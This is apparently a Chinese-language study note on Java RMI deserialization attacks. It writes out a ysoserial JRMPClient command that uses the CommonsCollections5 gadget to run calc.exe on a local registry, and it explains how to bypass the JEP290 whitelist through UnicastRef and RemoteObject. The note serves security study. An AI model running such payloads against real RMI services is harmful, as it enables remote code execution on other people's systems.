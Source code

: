 
### 客户端攻击注册中心
这种攻击方式不太常见(因为注册中心一般不可能暴露在外网)，我们这里来模拟攻击一下:

在了解这个攻击方式之前，我们同样需要去了解RMI协议，参考文章: [attack-rmi-registry-and-server-with-socket](https://xz.aliyun.com/t/8247)
具体代码参考ysoserial中的exploit/JRMPClient。

#### 攻击流程
1. 运行开头的注册中心代码，启动一个正常的注册中心
2. 运行`java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 2099 CommonsCollections5 "calc.exe"`，成功在注册中心弹出计算器

其原理是RMI框架采用DGC(Distributed Garbage Collection)分布式垃圾收集机制来管理远程对象的生命周期,可以通过与DGC通信的方式发送恶意payload让注册中心反序列化。

其触发反序列化的位置在`sun.rmi.transport.DGCImpl_Skel#dispatch`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211118114147.png)





## JEP290
参考一些师傅的文章，在JDK8u121，JDK7u13，JDK6u141之后添加了一个新的安全机制JEP290，核心其实就是增加了一个 `ObjectInputFilter` 接口，可以将 filter 设置给 `ObjectInputStream` 对象，在反序列化的时候触发 filter 的检测机制。
这个过滤的白名单我们最终可以在`RegistryImpl#registryFilter` 方法中看到:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119182902.png)

白名单的内容如下:
```
String / Number / Remote / Proxy / UnicastRef / RMIClientSocketFactory / RMIServerSocketFactory /  ActivationID / UID
```
只要反序列化的类不是白名单中的类，就会返回 `REJECTED` 操作符，表示序列化流中有不合法的内容，直接抛出异常。

## Bypass 8u121~8u230
### UnicastRef 类
UnicastRef 是在白名单上的，RMI Server 或者 Client 和 Registry 的通信就基于它。也就是说我们只要通过在目标上反序列化这个类，它就会发起一个JRMP连接，请求我们控制的恶意注册中心，这也是我们**注册中心攻击客户端**的原理。


### RemoteObject 类
RemoteObject 是一个抽象类，在后面的 Bypass 思路构造中它会扮演一个很重要的角色。它实现了 Remote 和 Serializable 接口，代表它（及其子类）可以通过白名单的检测，而 Bypass 利用的关键点就是它的 readObject 方法。我们编写以下代码手动模拟攻击:
```java
package top.longlone.RMIStudy;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class RMIRegistry {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(2099);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
        while (true) ;
    }
}
```
